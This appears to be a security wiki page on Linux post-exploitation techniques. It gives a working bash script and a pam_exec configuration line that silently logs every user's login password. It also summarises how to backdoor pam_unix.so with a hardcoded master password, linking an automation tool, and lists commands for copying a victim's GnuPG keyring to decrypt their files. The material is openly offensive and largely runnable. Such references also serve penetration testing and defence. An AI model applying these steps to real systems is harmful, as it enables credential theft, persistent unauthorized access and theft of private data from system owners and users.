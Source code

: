 # Linux Post-Exploitation


## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:

[[pam-pluggable-authentication-modules.md]]

**For further details check the [[https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/|original post]]**. This is just a summary:

**Technique Overview:**
Pluggable Authentication Modules (PAM) offer flexibility in managing authentication on Unix-based systems. They can enhance security by customizing login processes but also pose risks if misused. This summary outlines a technique to capture login credentials using PAM, alongside mitigation strategies.

**Capturing Credentials:**

- A bash script named `toomanysecrets.sh` is crafted to log login attempts, capturing the date, username (`$PAM_USER`), password (via stdin), and remote host IP (`$PAM_RHOST`) to `/var/log/toomanysecrets.log`.
- The script is made executable and integrated into the PAM configuration (`common-auth`) using the `pam_exec.so` module with options to run quietly and expose the authentication token to the script.
- The approach demonstrates how a compromised Linux host can be exploited to log credentials discreetly.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
```
### Backdooring PAM

**For further details check the [[https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9|original post]]**. This is just a summary:

The Pluggable Authentication Module (PAM) is a system used under Linux for user authentication. It operates on three main concepts: **username**, **password**, and **service**. Configuration files for each service are located in the `/etc/pam.d/` directory, where shared libraries handle authentication.

**Objective**: Modify PAM to allow authentication with a specific password, bypassing the actual user password. This is particularly focused on the `pam_unix.so` shared library used by the `common-auth` file, which is included by almost all services for password verification.

### Steps for Modifying `pam_unix.so`:

1. **Locate the Authentication Directive** in the `common-auth` file:
   - The line responsible for checking a user's password calls `pam_unix.so`.
2. **Modify Source Code**:
   - Add a conditional statement in the `pam_unix_auth.c` source file that grants access if a predefined password is used, otherwise, it proceeds with the usual authentication process.
3. **Recompile and Replace** the modified `pam_unix.so` library in the appropriate directory.
4. **Testing**:
   - Access is granted across various services (login, ssh, sudo, su, screensaver) with the predefined password, while normal authentication processes remain unaffected.

> [!TIP]
> You can automate this process with [[https://github.com/zephrax/linux-pam-backdoor|https://github.com/zephrax/linux-pam-backdoor]]

## Decrypting GPG loot via homedir relocation

If you find an encrypted `.gpg` file and a user’s `~/.gnupg` folder (pubring, private-keys, trustdb) but you can’t decrypt due to GnuPG homedir permissions/locks, copy the keyring to a writable location and use it as your GPG home.

Typical errors you’ll see without this: "unsafe ownership on homedir", "failed to create temporary file", or "decryption failed: No secret key" (because GPG can’t read/write the original homedir).

Workflow:

```bash
# 1) Stage a writable homedir and copy the victim's keyring
mkdir -p /dev/shm/fakehome/.gnupg
cp -r /home/victim/.gnupg/* /dev/shm/fakehome/.gnupg/
# 2) Ensure ownership & perms are sane for gnupg
chown -R $(id -u):$(id -g) /dev/shm/fakehome/.gnupg
chmod 700 /dev/shm/fakehome/.gnupg
# 3) Decrypt using the relocated homedir (either flag works)
GNUPGHOME=/dev/shm/fakehome/.gnupg gpg -d /home/victim/backup/secrets.gpg
# or
gpg --homedir /dev/shm/fakehome/.gnupg -d /home/victim/backup/secrets.gpg
```
```
If the secret key material is present in `private-keys-v1.d`, GPG will unlock and decrypt without prompting for a passphrase (or it will prompt if the key is protected).

## References

- [[https://0xdf.gitlab.io/2025/09/06/htb-environment.html|0xdf – HTB Environment (GPG homedir relocation to decrypt loot)]]
- [[https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration-Options.html#index-homedir|GnuPG Manual – Home directory and GNUPGHOME]]

